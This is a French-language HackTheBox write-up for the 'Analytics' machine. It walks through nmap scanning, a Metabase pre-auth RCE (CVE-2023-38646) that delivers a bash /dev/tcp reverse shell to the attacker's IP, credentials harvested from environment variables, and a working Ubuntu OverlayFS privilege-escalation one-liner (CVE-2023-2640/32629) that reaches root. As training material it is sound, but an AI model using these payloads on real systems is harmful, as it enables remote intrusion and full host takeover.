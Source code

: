 ```yaml
---
title:  "HacktheBox WriteUp : Analytics"
category: HackTheBox
tag: writeups
---
```

### Skills
- Nmap
- Metabase : CVE-2023-38646
- ubuntu 22.04 : CVE-2023-2640


### Scanner le réseau

On fait un scan rapide sur les 1000 premiers ports.

```console
$ nmap 10.10.11.233        
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Puis un plus détaillé sur les ports identifiés :

```console
$ nmap 10.10.11.233 -p 22,80 -sC -sV
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On explore le site et la seule chose intéressante qu'il y a est une page de login sur le nom de domaine `data.analytical.htb` (qu'on rajoute sur `/etc/hosts`).

<img src="/assets/images/WriteUps/HackTheBox/analytics/MetabaseLogin.png" width="300px" height="300px" style="display: block; margin: 0 auto"/>

En cherchant sur internet "Metabase exploit", on tombe sur la CVE ... et un [POC](https://github.com/m3m0o/metabase-pre-auth-rce-poc).

## Accès initial
On a l'explication du poc sur github, mais pour résumé :

<u>Côté attaquant - Utilisation du POC :</u>

```console
python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"
```
- On choisit la commande pour provoquer la connecter à notre machine en écoute (port 2222) : `bash -i >& /dev/tcp/10.10.16.24/2222 0>&1`. 
- On récupère le `token` dans le endpoint `/api/session/properties` comme indiqué dans le POC, donc à l'adresse `http://data.analytical.htb/api/session/properties` &rarr; 	setup-token: "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

Ce qui donne :
```console
$ python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.16.24/2222 0>&1"
```

<u>Côté attaquant - nc en écoute :</u>
```console
$ nc -lvnp 2222
```

## Accès initial
Une fois connecté avec notre reverse shell, à ma grande surprise nous n'avons pas le flag user (aucun fichier présent).
Dans ce cas, nous commençons à regarder les variables d'environnement et on voit apparaître des identifiants, ceux-ci permettant de nous connecter par ssh avec l'utilisateur `metalytics` :


<img src="/assets/images/WriteUps/HackTheBox/analytics/envVariable.png" width="400px" height="300px" style="display: block; margin: 0 auto"/>

Credentials : `metalytics:An4lytics_ds20223#`

## Escalade de privilèges

On test les classiques : sudo -l, env, uname -a, linpeas..

Concernant la version de l'OS et le noyau on obtient ceci.
```console
metalytics@analytics:/tmp$ uname -a 
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

En cherchant sur google **"Ubuntu 22.04.3  exploit"**, on obtient les CVE suivante : CVE-2023-2640 & CVE-2023-32629
avec un [POC](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).


On finit par utiliser l'exploit fournit dans le POC et on devient root :
```
metalytics@analytics:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'                                                 
root@analytics:/tmp# id                      
uid=0(root) gid=1000(metalytics) groups=1000(metalytics) 
```

## Ref
- [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc)
- [CVE-2023-2640 & CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

